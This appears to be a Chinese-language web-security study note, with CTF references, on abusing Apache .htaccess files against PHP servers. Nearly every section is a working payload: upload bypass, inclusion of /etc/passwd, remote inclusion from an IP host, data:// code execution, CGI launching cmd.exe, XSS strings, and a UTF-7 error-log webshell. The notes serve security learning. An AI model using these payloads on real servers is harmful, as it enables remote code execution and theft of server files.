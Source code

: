 # PHP安全学习—htaccess

Author: H3rmesk1t

Data: 2021.05.08

# 文件解析

> 经常出现在文件上传的黑名单没有限制 .htaceess 后缀，通过上传 .htaccess 文件，再上传图片，使图片的 php 恶意代码得以被解析执行
>.htaccess 文件内容有如下两种

```php
(1)SetHandler 指令

# 将images.png 当做 PHP 执行
<FilesMatch  "images.png">
SetHandler  application/x-httpd-php
</FilesMatch>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508200510679.png#pic_center)

```php
(2)AddType

# 将 .jpg(.xxx) 当做 PHP 文件解析
AddType application/x-httpd-php .jpg(.xxx)
```
# 文件包含

> 本地文件包含
> 通过 php_value 来设置 auto_prepend_file或者 auto_append_file 配置选项包含一些敏感文件，同时在本目录或子目录中需要有可解析的 php 文件来触发
>.htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php文件

```php
auto_prepend_file

php_value auto_prepend_file /etc/passwd
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508200805649.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
auto_append_file

php_value auto_append_file /etc/passwd
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508200840738.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

> 远程文件包含
> PHP 的 all_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以远程包含。因为 all_url_include 的配置范围为 PHP_INI_SYSTEM,所以无法利用 php_flag 在 .htaccess 中开启

```php
php_value auto_append_file http://10.87.9.156/phpinfo.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508201049583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# 源码泄露
> 利用 php_flag 将 engine 设置为 0,在本目录和子目录中关闭 php 解析,造成源码泄露

```php
php_flag engine 0
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508201211904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 代码执行
> （1）利用伪协议
all_url_fopen、all_url_include 为 On
> （2）解析.htaccess

```php
（1）
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508202342125.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
（2.1）
php_value auto_append_file .htaccess
#<?php phpinfo();
（2.2）
这种适合同目录或子目录没有 php 文件。
需要先设置允许可访问 .htaccess 文件

Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>

将 .htaccess指定当做 php文件处理

SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508202453546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508202507264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 命令执行

> CGI启动

```php
cgi_module 需要加载，即 apache 配置文件中有

LoadModule cgi_module modules/mod_cgi.so
.htaccess内容

Options ExecCGI #允许CGI执行
AddHandler cgi-script .xx #将xx后缀名的文件，当做CGI程序进行解析
ce.xx

#!C:/Windows/System32/cmd.exe /k start calc.exe
6
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508202654764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
[参考例题](https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check%20in)

> FastCGI启动

```php
mod_fcgid.so需要被加载。即 apache 配置文件中有

LoadModule fcgid_module modules/mod_fcgid.so
.htaccess

Options +ExecCGI
AddHandler fcgid-script .xx
FcgidWrapper "C:/Windows/System32/cmd.exe /k start calc.exe" .xx

ce.xx 内容随意
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508202946968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# XSS

> highlight_file

```php
.htaccess
php_value highlight.comment '"><script>alert(1);</script>'

index.php
<?php
highlight_file(__FILE__);
// comment

其中的 highlight.comment 也可以换成如下其他选项
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508203146944.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

> 错误消息链接

```php
index.php ：
<?php
include('foo');#foo报错

.htaccess
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508203246789.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 自定义错误文件

```php
error.php
<?php include('shell');#报错页面

.htaccess
php_value error_log /tmp/www/html/shell.php 
php_value include_path "<?php phpinfo(); __halt_compiler();"

访问 error.php，会报错并记录在 shell.php 文件中
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210508203403849.png#pic_center)

```php
因为会经过 html 编码，所以需要 UTF-7 来绕过。

.htaccess

# 第一次
php_value error_log /tmp/shell #定义错误路径
#---- "<?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"

# 第二次
php_value include_path "/tmp" #将include()的默认路径改变
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```
[参考例题](https://www.cnblogs.com/tr1ple/p/11439994.html)